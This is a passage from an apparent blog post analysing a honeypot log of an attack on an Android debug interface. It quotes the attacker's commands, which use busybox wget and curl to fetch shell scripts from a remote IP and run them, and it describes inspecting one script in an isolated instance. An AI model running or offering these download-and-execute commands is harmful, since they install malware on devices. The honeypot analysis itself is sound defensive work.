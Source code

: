 *This looks like the attacker is trying to change directories.*

`cd /data/local/tmp/;`

*Here the attacker is trying to tell busybox to download `w.sh` file.*

`busybox wget http://45.61.184.4/w.sh;` 

*Now the attacker attempts to invoke the default shell for the system and run `w.sh`.*

`sh w.sh;` 

*Finally, the attacker trys to download another file named `c.sh`.*

`curl http://45.61.184.4/c.sh;`

*Now the attacker attempts to invoke the default shell for the system and run `c.sh`.*

`sh c.sh`

**Remember** this is just one log event. Likely this means that this attacker will enter the honeypot again later to run the `c.sh` script. 

---

### What is the `c.sh` malicious file that was curl'ed into the honeypot?

I used a [Linode](https://www.linode.com/) instance to mimic the commands my attackers used. 

**Why a separate instance?**

I wanted to run the commands on a physically removed virtualized environment from my honeypot, personal VMs, and personal network at home. 

I downloaded the c.sh contents into a c.sh file and then ran the cat command to print the file contents to the screen. So we can see that the c.sh downloads each of these: 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney4.PNG)
